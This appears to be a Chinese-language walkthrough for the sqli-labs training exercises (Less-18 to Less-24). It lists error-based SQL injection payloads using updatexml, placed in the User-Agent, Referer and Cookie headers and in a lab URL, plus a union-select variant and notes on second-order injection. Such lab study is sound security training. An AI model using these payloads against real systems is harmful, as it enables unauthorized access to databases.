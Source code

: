 ## Less-18

抓包查看：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240326141607.png)

注释符似乎没用。

User-Agent: a' and updatexml(1,concat(0x7e,database(),0x7e),1) and '1

后略

## Less-19

Referer: a' and updatexml(1,concat(0x7e,database(),0x7e),1) and '1

## Less-20

Cookie: uname=admin' and updatexml(1,concat(0x7e,database(),0x7e),1) and '1; privacy=true

# Advanced Injections

## Less-21

把上面的用base64编码

## Less-22

"闭合，其余同上。

## Less-23

会把注释符替换为空。

http://192.168.1.104:1235/sqli-labs/Less-23/?id=2' and updatexml(1,concat(0x7e,database(),0x7e),1) and '1

或者联合注入也是可以的

?id=1' and union select 1,2,3 and '1'='1

## Less-24（二次注入

登陆界面和创建用户都进行了特殊字符的转义

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240327135130.png)

但是修改密码处没有处理session中的username

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20240327135600.png)

